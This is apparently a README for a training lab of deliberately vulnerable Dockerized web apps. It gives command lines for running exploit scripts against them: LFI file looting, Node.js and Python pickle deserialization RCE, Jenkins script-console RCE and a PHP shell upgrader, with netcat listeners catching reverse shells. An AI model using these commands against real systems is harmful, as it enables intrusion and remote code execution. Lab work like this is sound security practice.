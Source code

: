 # vulnhub

## Description

This project is some dockerized web applications that has any known vurnerability and a example on 
how to exploit them.

## Usage

Start all vurnerable docker containers

```sh
   docker-compose up -d
```

## lfi-php5 

Example on how to exploit this container.\
This command is an example on how to loot serverside files that normally will not be able to browse or download by use a LFI (local file inclusion) 

```sh
lfi-loot.py -f index.php -g file -u http://localhost:8080
``` 

##  nodejs-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./nodejs_deser_rce_nc.py http://localhost:3000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./nodejs_deser_rce.py http://localhost:3000 127.0.0.1 1337
```

##  pypickle-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./pycpickle_deser_rce_nc.py http://localhost:5000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./pypicke_deser_rce.py http://localhost:5000 127.0.0.1 1337
```
## jenkins-docker

Example on how to exploit this container 

```sh                                                                                                                                                                                                                                                                                                      
./jenkins_sconsole_rce.py 'http://localhost:8080' 10.10.14.24 1337 admin admin
```       
=======
##  get-php

Example on how to exploit this container.
 
```sh
shellupgrader.py http://localhost/index.php 127.0.0.1 1337
```
